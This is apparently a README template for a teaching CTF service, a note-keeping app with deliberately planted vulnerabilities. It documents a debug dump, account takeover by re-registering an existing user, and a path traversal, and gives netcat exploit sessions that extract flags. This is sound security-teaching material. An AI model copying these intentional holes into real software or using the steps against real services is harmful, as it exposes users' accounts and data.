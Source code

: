 n0t3b00k example service
====================
Example service to provide students a project strucutre. n0t3b00k is a simple service that allows users to register, login and save/retrieve notes. 


# Vulnerabilities

Please keep track of your intended vulnerabilities here:

## Debug enabled

- Category: Misconfiguration
- Difficulty: Easy

When `self.debug` is set to `True`, the `dump` command will list all users and their notes. 

## Account Takeover

- Category: Authentication
- Difficulty: Medium

When registering a new user, the service does not check if the user already exists and simply overwrites the password (`self.users[reg_user] = reg_pw`). The list of existing users can be obtained with the `user` command.

## Arbitrary Read or Write 

- Category: Path traversal
- Difficulty: hard?

The `FilesystemDict` uses user-supplied input when constructing the file paths. This could be used to write JSON-encoded data to any files. The impact has to be further analyzed, but this might lead to another account takeover (overwrite the password for other users) or flag access (reading the `notes` files).

*Note:* Without a proper impact analysis, we would classify this issue as a `unintended` vulnerability. Please try to keep such issues to a minimum, but document them nonetheless.

# Exploits

For each vulnerability, you should have a working example exploit ready! 

## Debug enabled:

Connect to the service and run `dump`:

```
gehaxelt@LagTop ~> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> dump
Users:
test:test
foo:bar
     Note 0:acbd18db4cc2f85cedef654fccc4a4d8:foo
     Note 1:37b51d194a7513e45b56f6524f2d51f2:bar
     Note 2:acbd18db4cc2f85cedef654fccc4a4d8:foo
4FOBMO10HWLC:EDPWN79U2KNL
I4K3P0SK3PST:CK5FALD39Y0S
B70YKMW72KUR:79Y5IM7FD7O8
GB7QC0DKYXPS:89TY8HI6OCBA
NXPTITQUSN2M:WYIWSGRZNKTX
6699DPYPAQDL:7IFEPP3P3LBI
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
MPG81XWFHNE8:H8KP8VECBQOR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
QN973IXF53HT:9BUVY6JNMGIW
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
UI2WTY7E7KC5:87SB830QHVX3
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XXPLIXZ9ZN1Q:F88L3J4GA2LE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
N43LU1348D19:YWT9TFCSVA2T
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
3DP6COPE6GMX:OI9437MJORZR
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
I8ZUNTWZ0Y0Q:B3AI1LN9SAAE
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
JUACZ5J3D475:5RNZ1ETOFBS6
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
KGFZNGHROLUS:05826L6X39XM
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
FV9VM13K8MGF:POUIW5CM6PY2
     Note 0:73c94f6925fea8202b5b96dbc018ad00:ENOTESTFLAG
XAHOKR4QD63O:VENSD82XO1XM
     Note 0:199480a3640248d5ea679b596d91c350:SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

The flags are in the output.

## Account Takeover

Connect to the service and use the `user` command to obtain a list of users:

```
gehaxelt@LagTop ~ [130]> nc 192.168.2.112 2323
Welcome to the 1337 n0t3b00k!
> user
User 0: test
User 1: foo
User 2: 4FOBMO10HWLC
User 3: I4K3P0SK3PST
User 4: B70YKMW72KUR
User 5: GB7QC0DKYXPS
User 6: NXPTITQUSN2M
User 7: 6699DPYPAQDL
User 8: MPG81XWFHNE8
User 9: QN973IXF53HT
User 10: UI2WTY7E7KC5
User 11: XXPLIXZ9ZN1Q
User 12: N43LU1348D19
User 13: 3DP6COPE6GMX
User 14: I8ZUNTWZ0Y0Q
User 15: JUACZ5J3D475
User 16: KGFZNGHROLUS
User 17: FV9VM13K8MGF
User 18: XAHOKR4QD63O
```

Use the username(s) and the `reg` command to set a different password. Next, `log`in as the user, `list` their notes and obtain the flag:

```
> reg XAHOKR4QD63O foo
User successfully registered
> log XAHOKR4QD63O foo
Successfully logged in!
> list 
Note 0: 199480a3640248d5ea679b596d91c350
> get 199480a3640248d5ea679b596d91c350
SKLNAYZAG7QX65RTMW3DCZAKPS9OC0TFH6GH
```

## Arbitrary Read or Write

TODO: None developed yet.

-----------------------------------------------

# Usage

Use this repository as the base structure for your service. Please keep the directory structure and the following required files:

- `README.md` with a description of your vulnerabilities and exploits.
- `LICENSE` with the MIT
- `.gitignore` files exclude directories or files from being committed.
- `.dockerignore` files exclude directories or files from being tracked by the docker daemon.
- `.env` files used by docker-compose to assign a unique project-name.
- `docker-compose.yml` files to manage your service or checker containers
- `Dockerfile` with commands to build your service

# Required changes

- You'll probably want to through all of these files and replace `n0t3b00k` with your service's name accordingly. 

- Assign your service a unique port. (See `service/docker-compose.yml`, `service/Dockerfile`, `service/src/n0t3b00k.py` and `checker/checker.py`)

# Checking your service

You will have to implement a checker script, which periodically interacts with your service to store and retrieve flags and checks if it still behaves correctly. The game engine will call your checker during a CTF. However, you can also perform all game engine call manually in your local development environment. 

- First, start your service with `cd service` and `docker-compose up --build`. 
- Next, start your checker with `cd checker` and `docker-compose up --build`. The checker launches a web interface on the port configured in its `docker-compose.yml`.
- Browse to `http://localhost:<checker-port>` to reach the checker interface.

Use the interface to call your different checker methods. TODO add screenshots?

# Questions?

We understand that this can be a bit overwhelming at first, but you'll quickly get used to the workflow. Nonetheless, *please* reach out to us if you're having problems getting started or something is unclear.